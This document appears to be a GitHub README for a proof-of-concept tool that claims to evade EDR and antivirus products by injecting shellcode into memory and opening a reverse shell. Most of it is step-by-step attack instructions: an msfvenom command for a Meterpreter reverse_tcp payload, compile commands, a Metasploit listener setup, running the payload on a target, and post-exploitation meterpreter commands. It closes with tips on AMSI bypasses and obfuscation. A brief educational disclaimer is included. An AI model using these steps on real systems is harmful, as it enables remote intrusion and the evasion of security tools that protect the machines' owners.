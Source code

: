 # EDR-Antivirus-Bypass-to-Gain-Shell-Access
EDR &amp; Antivirus Bypass to Gain Shell Access


This repository contains a proof-of-concept (PoC) for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

Description
This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as VirtualAlloc, CreateThread, and WaitForSingleObject. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

Disclaimer: This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

Features
Bypasses standard EDR and antivirus solutions
Executes shellcode in memory to create a reverse shell
Utilizes VirtualAlloc and CreateThread to inject the payload directly into process memory

Requirements
Windows Operating System (Tested on Windows 10)
Kali Linux (For reverse shell listener)
Visual Studio or any C# compiler


## Steps to Compile & Run

1. Clone the Repository

`git clone https://github.com/YOUR_USERNAME/EDR-Antivirus-Bypass-Shell.git`
`cd EDR-Antivirus-Bypass-Shell`


2. Modify Shellcode
Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using msfvenom:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp`

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


3. Compile the Code
Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:

`csc Program.cs`

Alternatively, you can compile in Release mode for better optimization:

`csc -optimize Program.cs`


4. Start a Listener on Kali
On your Kali Linux machine, start a listener to catch the reverse shell. Use the following command in Metasploit:

`msfconsole`
`use exploit/multi/handler`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LHOST <YOUR_IP>`
`set LPORT <YOUR_PORT>`
`run`

5. Execute the Payload
Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file.

`Program.exe`

6. Obtain the Shell
Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:

`meterpreter > sysinfo`
`meterpreter > shell`


7. Additional Bypass Techniques
To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion

